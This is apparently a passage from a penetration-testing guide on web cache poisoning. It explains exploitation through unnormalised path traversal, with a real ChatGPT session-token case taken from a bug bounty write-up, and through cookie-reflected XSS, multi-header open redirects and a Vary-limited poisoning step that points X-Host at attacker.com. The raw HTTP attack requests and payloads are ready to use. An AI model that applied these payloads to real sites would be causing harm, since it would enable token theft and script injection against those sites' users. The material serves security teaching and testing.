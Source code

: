 ```
- The CDN will NOT decode nor normalize `%2F..%2F`, therfore, it can be used as **path traversal to access other sensitive locations that will be cached** like `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123`
- The web server WILL decode and normalize `%2F..%2F`, and will respond with `/api/auth/session`, which **contains the auth token**.

### Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookies could also be reflected on the response of a page. If you can abuse it to cause a XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.

```html
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```
```
Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.

### Generating discrepancies with delimiters, normalization and dots 

Check:

[[cache-poisoning-via-url-discrepancies.md]]

### Cache poisoning with path traversal to steal API key 

[[https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html|**This writeup explains**]] how it was possible to steal an OpenAI API key with an URL like `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123` because anything matching `/share/*` will be cached without Cloudflare normalising the URL, which was done when the request reached the web server.

This is also explained better in:

[[cache-poisoning-via-url-discrepancies.md]]

### Using multiple headers to exploit web cache poisoning vulnerabilities 

Sometimes you will need to **exploit several unkeyed inputs** to be able to abuse a cache. For example, you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Scheme` to `http`.**If** the **server** is **forwarding** all the **HTTP** requests **to HTTPS** and using the header `X-Forwarded-Scheme` as the domain name for the redirect. You can control where the page is pointed by the redirect.

```html
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
```
### Exploiting with limited `Vary`header

If you found that the **`X-Host`** header is being used as **domain name to load a JS resource** but the **`Vary`** header in the response is indicating **`User-Agent`**. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:

```html
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
```
```